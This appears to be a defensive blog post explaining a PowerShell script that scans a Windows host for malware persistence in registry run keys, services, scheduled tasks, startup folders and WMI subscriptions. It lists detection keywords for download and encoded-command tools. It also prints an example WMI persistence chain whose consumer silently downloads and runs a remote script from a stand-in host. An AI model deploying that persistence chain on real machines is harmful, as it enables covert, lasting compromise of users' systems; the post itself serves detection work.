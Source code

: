 ```yaml
---
layout: post
title:  "Powershell for Checking Malware Persistence (All-In-One Script)"
date:   2025-06-16 21:00:00 +1000
categories: project
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

[-----Malware Persistence Checker-----](https://github.com/lvl0socanalyst/Scripts/blob/main/malware_persistence_checker.ps1)

Script that checks for common malware persistence vectors.

Useful when performing analysis on a potentially compromised PC that has been disconnected from the internet. 

I'll slowly add function by function. But I'll start with reg keys. Couldn't you just use autoruns? YES. But that's no fun.

Rather than post the whole script I'll just run over and explain the functions/how to use it. 

Potentially suspicious findings will be dumped in CLI. All results will be whacked into a .txt file
- Therefore, if you don't like the regex or what is marked as 'suspicious' you can change it. Or just view the .txt to see the full output

Script gives the following options:
1. Scan Registry Persistence Keys
2. Scan Service Keys
3. Scan Scheduled Tasks
4. Scan Startup Folders
5. Scan WMI Event Subscriptions
6. Scan Everything 
7. Exit

![PowerShell Script Options](/images/script_photo.png)

### Potentially suspicious indicators

The script outputs all results to a .txt file. However, entries that seem suspicious are plastered onto the CLI. These are the following indicators I came up with for files/commands/flags that can raise a red flag.

Indicators
- ```"AppData", "Temp", "Roaming", "LocalLow", "Public", "Users\\Public", "\.vbs", "\.js", "\.bat", "\.cmd", "\.ps1", "\.scr", "wscript.exe", "cscript.exe", "powershell.exe", "mshta.exe", "rundll32.exe", "cmd.exe", "System32\\Tasks", "Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved", "curl.exe", "wget.exe", "base64", "Invoke-", "DownloadString", "EncodedCommand" ```


### Registry and Windows Service Keys

Registry keys are fileless. Hence why they a common spot for malware payloads to exist. Payloads stored in reg keys are often called later by scheduled tasks or WMI events. 

A malicious registry payload would typically call powershell to download or invoke a payload.

Checks the following registry keys
- HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
- HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
- HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
- HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

Service keys are also checked for the above indicators. 
- HKLM:\SYSTEM\CurrentControlSet\Services


### Scheduled Tasks
Malware will often create a scheduled task to run at a certain time to give persistence on the host device. This ensures even after a restart or shutdown the beacon can be reinstated.

Scans all scheduled tasks that don't have \Microsoft\ in the path.

Pretty popular persistence vector however is quite well known. One of the first SIEM rules you create should be for alerting on schtasks.exe usage or for tasks here that aren't known.


### Startup Folders
Files that reside here are executed on startup. Much like scheduled tasks a very common area for malware to reside to ensure persistence after a restart/shutdown.

The following startup folders are checked
- AppData\Microsoft\Windows\Start Menu\Programs\Startup
- ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Malicious files that are set to start on boot here are often named as legitimate Microsoft files and LOLBINs to avoid suspicion.


### WMI Event Subscriptions
WMI subscriptions allow for commands to trigger when a system event occurs. Likewise to reg entries this method is fileless and quite a common method for persistence for more advanced malware.

WMI subscriptions use WQL (Windows Management Instrumentation Query Language) to create conditions on which they should trigger and the action that will occur. WQL uses very similar syntax to SQL, and reads almost like pseudocode. 

An example of a malicious WMI subscription that was used by CozyBear (APT 29).

-----Sets the condition for which the action is triggered (creation of a filter)-----
- ```Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name='explorer.exe'"```

-----Sets the action when the filter is triggered (creation of a consumer)-----
- ```CommandLineTemplate = "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http:cozynoobs.com/minecraft.ps1')"```

-----Binds filter to the consumer (creates condition that runs consumer when filter occurs)
- ```Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{ Filter = $filter.__PATH Consumer = $consumer.__PATH }```

That was a very dumbed down version of the actual event subscription used. But you get the idea of how it is structured. A filter is created which in turn when triggered runs the consumer (action) that runs the suspicious commands.

The following subscriptions are checked
- Get-WmiObject -Namespace root\subscription -Class __EventFilter
- Get-WmiObject -Namespace root\subscription -Class __EventConsumer
- Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding